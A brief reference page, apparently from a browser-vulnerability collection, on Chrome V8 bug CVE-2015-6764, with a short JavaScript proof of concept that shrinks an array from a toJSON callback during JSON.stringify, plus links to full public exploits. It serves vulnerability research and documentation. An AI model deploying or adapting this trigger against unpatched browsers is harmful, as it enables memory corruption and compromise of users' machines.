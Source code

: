 # CVE-2015-6764

- Date: Nov 2015
- Credit: Guang Gong of Qihoo 360 via pwn2own

## PoC

```javascript
var array = [];
var funky = {
  toJSON: function() { array.length = 1; return "funky"; }
};
for (var i = 0; i < 10; i++) array[i] = i;
array[0] = funky;
JSON.stringify(array);
```

## Reference

- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=554946)
- [Exploit by oldfresher](https://github.com/secmob/cansecwest2016/blob/master/exploit.html)
- [Exploit by 4B5F5F4B](https://github.com/4B5F5F4B/Exploits/blob/master/Chrome/CVE-2015-6764/Exploit_V2.html)
